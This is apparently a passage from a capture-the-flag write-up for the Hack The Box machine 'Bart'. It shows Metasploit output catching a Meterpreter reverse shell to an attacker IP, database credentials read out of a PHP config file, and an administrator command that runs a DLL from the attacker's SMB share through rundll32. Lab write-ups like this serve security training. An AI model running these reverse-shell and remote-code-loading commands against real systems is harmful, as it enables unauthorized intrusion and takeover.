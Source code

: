 ```bash
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 5.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.20:443
msf5 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  5   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://10.10.14.20:443

msf5 exploit(multi/handler) > [*] Sending stage (206403 bytes) to 10.10.10.81
[*] Meterpreter session 6 opened (10.10.14.20:443 -> 10.10.10.81:49697) at 2019-07-23 20:18:56 -0400

msf5 exploit(multi/handler) > sessions -i 6
[*] Starting interaction with 6...

meterpreter > sysinfo
Computer        : BART
OS              : Windows 10 (Build 15063).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\IUSR
```



## Privilege Escalation



Now that we have a nice 64 bit shell back that doesn't disconnect, we can start looking around for ways to elevate to system. There seems to be several accounts related to each employee but nothing really interesting installed here on this machine. Checking out the php files on this simple chat application, we find some sql creds for our buddy Harvey.

```powershell 
C:\inetpub\wwwroot\internal-01\simple_chat\includes>type dbconnect.php
type dbconnect.php
<?php
/**********************************************\
* Copyright (c) 2013 Manolis Agkopian          *
* See the file LICENCE for copying permission. *
\**********************************************/

if (!defined('INCLUDED')){
        define('INCLUDED',true);
        require 'markup_func.php';
        header('HTTP/1.1 403 Forbidden');
        do_html_403();
        die();
}

function db_connect() {
        $con = @mysqli_connect('localhost', 'harvey', '!IC4nB3Th3B3st?', 'internal_chat');
        if ($con === false) {
                return false;
```

[localhost]: PS C:\Users\Administrator\Documents> whoami
[localhost]: PS C:\Users\Administrator\Documents> cmd.exe /c "rundll32.exe \\10.10.14.20\BLAH\64443.dll,0"
